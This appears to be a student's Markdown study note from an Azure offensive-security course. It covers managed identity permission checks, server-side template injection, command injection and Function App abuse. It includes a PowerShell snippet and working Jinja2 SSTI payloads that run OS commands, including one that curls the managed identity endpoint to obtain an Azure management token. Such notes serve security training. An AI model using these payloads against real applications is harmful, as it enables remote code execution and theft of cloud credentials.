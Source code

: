 Check the permissions of the managed identity on the virtual machine:
```powershell
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/providers/Microsoft.Authorization/permissions?api-version=2015-07-01'
$RequestParams = @{
    Method = 'GET'
    Uri = $URI
    Headers = @{
        'Authorization' = "Bearer $Token"
    }
}
(Invoke-RestMethod @RequestParams).value
```

> [Note] There should be no need to use the above code. **Get-AzRoleAssignment** gives the correct result in case a users token is used but throws an error in case the token of a managed identity is used.


#### SSTI and Command Injection

- SSTI allows an attacker to abuse template syntax to inject payloads in a template that is executed on the server side
- with OS Command Injection is possible to run arbitrary operating system commands on the server where requests are processed

> let's not waste time, this is not web app class.. both works the same, at the end we will run commands, get tokens and access something

Just a remark. 

In the course they use this payload (Dont forget to add the double bracets *\{\{ payload \}\}* ):
```python 
config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()
```

But I used this one because I found it easier:
```python 
cycler.__init__.__globals__.os.popen('whoami').read() 
```

```python 
cycler.__init__.__globals__.os.popen('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read() 
```


> Anyway lets jump this

### Function App Abuse

Function App (also called Azure Functions) is Azure`s **serverless** solution to run code.

- Languages like C#, Java, PowerShell, Python and more are supported.
- A Function App is supposed to be used to react to an event like:
  - HTTP Trigger
  - Processing a file upload
  - Run code on scheduled time and more
- App service provides the hosting infrastructure for function apps.
- Function apps support Managed Identities
